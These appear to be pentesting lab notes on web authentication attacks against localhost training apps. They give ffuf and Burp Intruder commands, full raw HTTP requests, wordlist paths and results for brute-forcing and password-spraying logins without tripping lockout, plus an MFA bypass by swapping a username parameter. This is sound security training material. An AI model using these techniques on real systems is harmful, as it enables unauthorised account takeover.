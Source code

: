 # Web App - Authentication Attacks

> - [Authentication | AppSecExplained](https://appsecexplained.gitbook.io/appsecexplained/common-vulns/authentication)

---

## Attacking Authentication - Brute force

- Pay attention to authentication restrictions

**BurpSuite**

- Login here `http://localhost/labs/a0x01.php` and use BurpSuite intruder to brute-force the login
  - Load `/usr/share/seclists/SecLists-master/Passwords/xato-net-10-million-passwords-1000.txt` wordlist into Payload
  - Remember that BurpSuite Community Edition attacks are time throttled
  - Once it hits the correct password, the response of the page will be different, so the length will be different. Sort by **length**
  - 📌 Found creds: `jeremy`:`letmein`

![](.gitbook/assets/2025-02-28_01-55-59_924.png)

**ffuf**

- Way faster than BurpSuite Community

```bash
nano req4.txt

# Add the request content from Burp Suite
```

```bash
POST /labs/a0x01.php HTTP/1.1
Host: localhost
Content-Length: 33
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="133", "Not(A:Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Accept-Language: en-US,en;q=0.9
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/labs/a0x01.php
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

username=jeremy&password=FUZZ
```

- Run `ffuf` with that request and use it as a baseline for the attack

```bash
ffuf -request req4.txt -request-proto http -w /usr/share/seclists/Passwords/xato-net-10-million-passwords-10000.txt

# Filter the similar sizes
ffuf -request req4.txt -request-proto http -w /usr/share/seclists/Passwords/xato-net-10-million-passwords-10000.txt -fs 1814
```

![](.gitbook/assets/2025-02-28_02-01-23_925.png)

---

## Attacking Authentication - MFA

- Test the login flow with `jessamy`:`pasta` and MFA code
- Intercept the "Enter MFA" request with BurpSuite and change `username2` to `jeremy`
  - website is logged in with `jeremy`

![](.gitbook/assets/2025-02-28_02-10-23_926.png)

![](.gitbook/assets/2025-02-28_02-10-35_927.png)

---

## Attacking Authentication - Challenge

- Find a valid account and login as that account
- ❗ Accounts will lock after 5 failed login attempts - Reset labs at `http://localhost/init.php`
- Lets try to test a long list of usernames, and checking the top 4 passwords for those usernames, so there will be no lockout
- `admin`:`admin` - *Password incorrect, added a lockout attempt*
  - user `admin` exists

```bash
head /usr/share/wordlists/rockyou.txt
123456
12345
123456789
password
iloveyou
princess
1234567
rockyou
12345678
abc123

head /usr/share/seclists/Passwords/xato-net-10-million-passwords-10.txt
123456
password
12345678
qwerty
123456789
12345
1234
111111
1234567
dragon
```

- Adjust the payload depending on the situation or the targets

```bash
nano pass.txt

123456
password
letmein
teashop
```

- Copy request

```bash
nano teashop.txt
# in this case there will be 2 payloads
```

```bash
POST /labs/a0x03.php HTTP/1.1
Host: localhost
Content-Length: 29
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="133", "Not(A:Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Accept-Language: en-US,en;q=0.9
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,applica>
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/labs/a0x03.php
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

username=FUZZUSER&password=FUZZPASS
```

- Note the `Content-Length: 3376`

```bash
ffuf -request teashop.txt -request-proto http -mode clusterbomb -w pass.txt:FUZZPASS -w /usr/share/seclists/Usernames/top-usernames-shortlist.txt:FUZZUSER -fs 3376

# Results
...
[Status: 200, Size: 3256, Words: 1262, Lines: 68, Duration: 4597ms]
    * FUZZPASS: letmein
    * FUZZUSER: adm

[Status: 200, Size: 3256, Words: 1262, Lines: 68, Duration: 4596ms]
    * FUZZPASS: password
    * FUZZUSER: test

[Status: 200, Size: 3378, Words: 1270, Lines: 68, Duration: 4597ms]
    * FUZZPASS: letmein
    * FUZZUSER: admin
...
```

- Filter responses when an account does not exist based on the results, or just search for a different Size in the `ffuf` result list
- 📌 Found creds: `admin`:`letmein`

![](.gitbook/assets/2025-02-28_02-25-45_928.png)

---

